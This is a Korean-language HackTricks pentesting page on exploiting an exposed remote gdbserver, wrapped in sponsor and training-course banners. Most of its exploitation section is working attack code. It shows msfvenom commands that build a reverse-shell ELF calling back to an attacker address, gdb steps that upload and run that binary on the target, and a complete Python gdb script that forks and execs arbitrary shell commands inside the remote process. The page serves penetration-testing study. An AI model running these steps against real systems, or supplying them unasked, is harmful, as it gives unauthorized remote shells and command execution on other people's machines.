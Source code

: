 # Pentesting Remote GdbServer

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 해커의 관점에서 웹 앱, 네트워크 및 클라우드를 살펴보세요

**실제 비즈니스에 영향을 미치는 치명적이고 악용 가능한 취약점을 찾아보고 보고하세요.** 공격 표면을 매핑하고 권한 상승을 허용하는 보안 문제를 찾아내며, 필수 증거를 수집하기 위해 자동화된 익스플로잇을 사용하여 귀하의 노력을 설득력 있는 보고서로 전환할 수 있는 20개 이상의 맞춤형 도구를 사용하세요.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **기본 정보**

**gdbserver**는 프로그램을 원격으로 디버깅할 수 있게 해주는 도구입니다. 디버깅이 필요한 프로그램과 함께 동일한 시스템에서 실행되며, 이를 "대상"이라고 합니다. 이 설정은 **GNU Debugger**가 소스 코드와 디버깅된 프로그램의 바이너리 복사본이 저장된 다른 머신인 "호스트"에서 연결할 수 있게 합니다. **gdbserver**와 디버거 간의 연결은 TCP 또는 직렬 라인을 통해 이루어질 수 있어 다양한 디버깅 설정이 가능합니다.

**gdbserver를 어떤 포트에서도 수신 대기하도록 설정할 수 있으며**, 현재 **nmap은 이 서비스를 인식할 수 없습니다.**

## Exploitation

### 업로드 및 실행

**msfvenom으로 elf 백도어를 쉽게 생성하고**, 업로드하여 실행할 수 있습니다:
```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```
### 임의의 명령 실행

**디버거가 임의의 명령을 실행하도록 만드는 또 다른 방법이 있습니다.** [**여기에서 가져온 python 사용자 정의 스크립트**](https://stackoverflow.com/questions/26757055/gdbserver-execute-shell-commands-of-the-target).
```bash
# Given remote terminal running `gdbserver :2345 ./remote_executable`, we connect to that server.
target extended-remote 192.168.1.4:2345

# Load our custom gdb command `rcmd`.
source ./remote-cmd.py

# Change to a trusty binary and run it to load it
set remote exec-file /bin/bash
r

# Run until a point where libc has been loaded on the remote process, e.g. start of main().
tb main
r

# Run the remote command, e.g. `ls`.
rcmd ls
```
먼저 **이 스크립트를 로컬에서 생성하세요**:

{% code title="remote-cmd.py" %}
```python
#!/usr/bin/env python3

import gdb
import re
import traceback
import uuid


class RemoteCmd(gdb.Command):
def __init__(self):
self.addresses = {}

self.tmp_file = f'/tmp/{uuid.uuid4().hex}'
gdb.write(f"Using tmp output file: {self.tmp_file}.\n")

gdb.execute("set detach-on-fork off")
gdb.execute("set follow-fork-mode parent")

gdb.execute("set max-value-size unlimited")
gdb.execute("set pagination off")
gdb.execute("set print elements 0")
gdb.execute("set print repeats 0")

super(RemoteCmd, self).__init__("rcmd", gdb.COMMAND_USER)

def preload(self):
for symbol in [
"close",
"execl",
"fork",
"free",
"lseek",
"malloc",
"open",
"read",
]:
self.load(symbol)

def load(self, symbol):
if symbol not in self.addresses:
address_string = gdb.execute(f"info address {symbol}", to_string=True)
match = re.match(
f'Symbol "{symbol}" is at ([0-9a-fx]+) .*', address_string, re.IGNORECASE
)
if match and len(match.groups()) > 0:
self.addresses[symbol] = match.groups()[0]
else:
raise RuntimeError(f'Could not retrieve address for symbol "{symbol}".')

return self.addresses[symbol]

def output(self):
# From `fcntl-linux.h`
O_RDONLY = 0
gdb.execute(
f'set $fd = (int){self.load("open")}("{self.tmp_file}", {O_RDONLY})'
)

# From `stdio.h`
SEEK_SET = 0
SEEK_END = 2
gdb.execute(f'set $len = (int){self.load("lseek")}($fd, 0, {SEEK_END})')
gdb.execute(f'call (int){self.load("lseek")}($fd, 0, {SEEK_SET})')
if int(gdb.convenience_variable("len")) <= 0:
gdb.write("No output was captured.")
return

gdb.execute(f'set $mem = (void*){self.load("malloc")}($len)')
gdb.execute(f'call (int){self.load("read")}($fd, $mem, $len)')
gdb.execute('printf "%s\\n", (char*) $mem')

gdb.execute(f'call (int){self.load("close")}($fd)')
gdb.execute(f'call (int){self.load("free")}($mem)')

def invoke(self, arg, from_tty):
try:
self.preload()

is_auto_solib_add = gdb.parameter("auto-solib-add")
gdb.execute("set auto-solib-add off")

parent_inferior = gdb.selected_inferior()
gdb.execute(f'set $child_pid = (int){self.load("fork")}()')
child_pid = gdb.convenience_variable("child_pid")
child_inferior = list(
filter(lambda x: x.pid == child_pid, gdb.inferiors())
)[0]
gdb.execute(f"inferior {child_inferior.num}")

try:
gdb.execute(
f'call (int){self.load("execl")}("/bin/sh", "sh", "-c", "exec {arg} >{self.tmp_file} 2>&1", (char*)0)'
)
except gdb.error as e:
if (
"The program being debugged exited while in a function called from GDB"
in str(e)
):
pass
else:
raise e
finally:
gdb.execute(f"inferior {parent_inferior.num}")
gdb.execute(f"remove-inferiors {child_inferior.num}")

self.output()
except Exception as e:
gdb.write("".join(traceback.TracebackException.from_exception(e).format()))
raise e
finally:
gdb.execute(f'set auto-solib-add {"on" if is_auto_solib_add else "off"}')


RemoteCmd()
```
{% endcode %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 해커의 관점에서 웹 앱, 네트워크 및 클라우드를 살펴보세요

**실제 비즈니스에 영향을 미치는 중요한 취약점을 찾아보고 보고하세요.** 20개 이상의 맞춤형 도구를 사용하여 공격 표면을 매핑하고, 권한 상승을 허용하는 보안 문제를 찾아내며, 자동화된 익스플로잇을 사용하여 필수 증거를 수집하여 귀하의 노력을 설득력 있는 보고서로 전환하세요.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
